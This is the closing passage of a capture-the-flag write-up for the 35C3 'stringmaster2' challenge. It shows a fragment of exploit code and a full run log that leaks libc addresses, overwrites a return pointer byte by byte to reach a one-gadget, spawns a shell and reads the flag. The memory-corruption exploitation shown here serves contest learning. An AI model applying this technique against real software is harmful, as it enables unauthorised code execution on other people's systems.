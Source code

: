 ```python
        else:
            log.info("Guessed wrong...")
```
If we then send `quit` it will cause a return which will jump to our oneshot gadget.

When running our exploit now we get this:
```
~$ ./exploit.py
[+] Opening connection to 35.207.132.47 on port 22225: Done
[*] Mapping binary
[*] '/vagrant/35c3/pwn/stringmaster2/stringmaster2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] String1: dreqwjwtag, String2: ucahakpdwj
[+] Leaked return pointer: 0x564f1acc75fb
[+] Leaked libc address: 0x7f2b142c2b97
[+] Calculated libc base: 0x7f2b142a1000
[+] Oneshot is at: 0x7f2b143ab38c
[*] Attepting overwrite...
[*] ------> Overwriting byte 0: 0xfb with 0x8c at offset 2
[+] WORKED!!! New pointer: 0x564f1acc758c
[*] ------> Overwriting byte 1: 0x75 with 0xb3 at offset 2
[+] WORKED!!! New pointer: 0x564f1accb38c
[*] ------> Overwriting byte 2: 0xcc with 0x3a at offset 2
[*] Guessed wrong...
[*] ------> Overwriting byte 2: 0xcc with 0x3a at offset 3
[+] WORKED!!! New pointer: 0x564f1a3ab38c
[*] ------> Overwriting byte 3: 0x1a with 0x14 at offset 2
[*] Guessed wrong...
[*] ------> Overwriting byte 3: 0x1a with 0x14 at offset 3
[+] WORKED!!! New pointer: 0x564f143ab38c
[*] ------> Overwriting byte 4: 0x4f with 0x2b at offset 2
[*] Guessed wrong...
[*] ------> Overwriting byte 4: 0x4f with 0x2b at offset 3
[+] WORKED!!! New pointer: 0x562b143ab38c
[*] ------> Overwriting byte 5: 0x56 with 0x7f at offset 2
[*] Guessed wrong...
[*] ------> Overwriting byte 5: 0x56 with 0x7f at offset 3
[+] WORKED!!! New pointer: 0x7f2b143ab38c
[+] WE ARE IN CONTROL!!! RETURN TO ONESHOT AT 0X7f2b143ab38c
[+] Spawning shell...
[*] Switching to interactive mode
You lost.
$ cat flag.txt
35C3_fb23c497dbbf35b0f13b9d16311fa59cf8ac1b02
$
```
You can find the full exploit in `exploit.py`. Note that you might have to tun it multiple times because the exploit isn't too stable.
Hopefully I was able to help at least some people understanding this challenge and the exploit. Feel free to dm me @A2nkF_ on twitter if you have any questions or if you've found some mistakes ;P
